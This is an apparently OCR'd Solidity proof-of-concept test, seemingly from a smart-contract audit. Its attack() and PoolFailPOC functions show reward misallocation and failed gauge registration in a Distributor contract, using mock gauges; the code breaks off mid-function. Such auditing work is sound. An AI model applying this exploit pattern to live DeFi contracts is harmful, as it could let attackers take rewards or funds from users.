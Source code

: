 ```
    Zero zero;
    Distributor d;

    constructor() {
        supply_gauge = new MockIncentiveController(10e18);
        borrow_gauge = new MockIncentiveController(10e18);
        lending_gauge = new LendingPoolGauge(address(supply_gauge), address(borrow_gauge));
        zero = new Zero();
        d = new Distributor(zero);
        zero.transfer(address(d), 100e18);
    }

    function attack() external {
        d.set_claimable(address(lending_gauge), 30e18);
        d.distribute(address(lending_gauge));

        require(zero.balanceOf(address(supply_gauge)) == 7.5e18);
        require(zero.balanceOf(address(borrow_gauge)) == 0);

        require(d.claimable(address(lending_gauge)) == 30e18);        
    }

    function PoolFailPOC() external {
        require(d.pools().length == 0);
        d.registerGauge(address(0), address(1));
        require(d.pools().length == 0);

    }
}

contract DummyGauge {

    function notifyRewardAmount(
        address token,
        uint256 amount
    ) external returns (bool) {
        IERC20(token).transferFrom(msg.sender, address(this), amount);    
    }
}


contract DistributorEx {
    uint256 public totalWeight; // total voting weight
    mapping(address => uint256) public weights; // pool => weight
    address[] internal _pools; // all pools viable for incentives
    mapping(address => address) public gauges; // pool => gauge

    function setup() external {
        totalWeight = 2e18;
        _pools = new address[](2);
        _pools[0] = address(0x1111);
        _pools[1] = address(0x1112);
        weights[address(0x1111)] = 1e18;
        weights[address(0x1112)] = 1e18;
        gauges[address(0x1111)] = address(new DummyGauge());
        gauges[address(0x1112)] = address(new DummyGauge());

    }

    function distributeEx(
    address token,
    uint256 start,
    uint256 finish
```
